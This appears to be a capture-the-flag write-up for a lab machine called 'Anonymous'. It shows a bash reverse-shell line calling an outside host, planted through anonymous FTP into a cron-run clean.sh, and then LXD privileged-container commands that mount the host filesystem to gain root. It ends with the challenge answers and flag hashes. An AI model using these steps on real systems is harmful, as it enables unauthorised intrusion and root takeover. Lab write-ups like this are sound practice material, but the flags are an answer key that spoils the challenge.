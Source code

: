 # Anonymous

```
export IP=10.10.93.198
```

# Material needed

1. Backdoor to spawn shell

```
ftp
# clean.sh

bash -i >& /dev/tcp/10.8.193.113/1234 0>&1


Replace file clean.sh with backdoor
append
(local-file) clean.sh
(remote-file) clean.sh
```

2. Privilege escalation

```
lxc image list
lxc image import ./alpine-v3.13-x86_64-20210606_0356.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
[-]Creating ignite
[-]Error: No storage pool found. Please create a new storage pool

lxc init
Name of the new storage pool [default=default]: ignite

lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

3. root.txt

```
/mnt/root/root/root.txt
```

# Tasks

1. Enumerate the machine.  How many ports are open?

2. What service is running on port 21?

3. What service is running on ports 139 and 445?

4. There's a share on the user's computer.  What's it called? pics

5. user.txt

```
90d6f992585815ff991e68748c414740
```

6. root.txt

```
4d930091c31a622a7ed10f27999af363
```
